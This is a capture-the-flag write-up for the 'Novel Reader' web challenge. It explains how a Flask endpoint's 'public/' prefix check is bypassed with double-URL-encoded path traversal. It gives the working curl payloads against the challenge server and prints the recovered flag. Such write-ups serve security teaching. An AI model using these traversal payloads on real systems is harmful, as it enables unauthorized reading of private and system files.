 # Novel Reader Writeup

by: xhyr

We have many fun novels for ya...

Dockerfile Environment (Downloadable)

`http://3.64.250.135:9000`

## Initial Thoughts

In this challenge, we are provided with the source code and a url.

Let's explore the url:

![Index Page](images/1.png)

After some clicking around, we find out that trying to access content from "My Private Collection" will block us with this message:

![Block Message](images/2.png)

Then, there is also the "Charge Account" feature where you can convert your balance to "Words Balance", which seems to be 10 balance credits for one word.

Now, lets explore the source code.

From the `Dockerfile` we know that there is a flag.txt copied in the root directory of the app.

In the `stuff` folder, we find `main.py` that contains all of the logic for the site.

Viewing the text files in the private and public directory, we find a hardcoded flag in the `A-Secret-Tale.txt`. Weird that it is hardcoded but let's try to access that first.

## Reading Private "Novels"

As we found earlier, trying to read "private" novels results in getting a message that we cannot do that. Let's check the code for that:

```python
@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}
```

We found this route in `main.py`, at first glance this looks like it would be vulnerable to path traversal.

A payload like `public/../private/A-Secret-Tale.txt` would probably work, we now just have to encode it.

After encoding with CyberChef. We get this payload: `public%2F%2E%2E%2Fprivate%2FA%2DSecret%2DTale%2Etxt` which is `public/../private/A-Secret-Payload.txt` without encoding.

For this we can just curl the url like this `http://3.64.250.135:9000/api/read/$PAYLOAD`.

```bash
curl http://3.64.250.135:9000/api/read/public%2F%2E%2E%2Fprivate%2FA%2DSecret%2DTale%2Etxt
```

With this command, we are still getting the unauthorized message.

Then, we try to double encode it and here's our new payload: `public%252F%252E%252E%252Fprivate%252FA%252DSecret%252DTale%252Etxt`

```bash
curl http://3.64.250.135:9000/api/read/public%252F%252E%252E%252Fprivate%252FA%252DSecret%252DTale%252Etxt
```

We get the success message, but we fail to get the flag since we don't have enough "words_balance" to read the whole file! Atleast, now we know that we can do some directory traversal.

The next step would be to find out how to get us more credits. But before that, I remembered that there is a flag in the root folder because of the dockerfile earlier.

So, after making double encoding this payload `public/../../flag.txt`:

```bash
curl http://3.64.250.135:9000/api/read/public%252F%252E%252E%252F%252E%252E%252Fflag%252Etxt
```

Then, we get this returned:

```
{"msg":"MAPNA{uhhh-1-7h1nk-1-f0r607-70-ch3ck-cr3d17>0-4b331d4b}\n\n... Charge your account to unlock more of the novel!","success":true}
```

With the flag: `MAPNA{uhhh-1-7h1nk-1-f0r607-70-ch3ck-cr3d17>0-4b331d4b}`

Note: The hardcoded flag in the `A-Secret-Tale.txt` file is another flag for the Novel Reader 2 challenge.
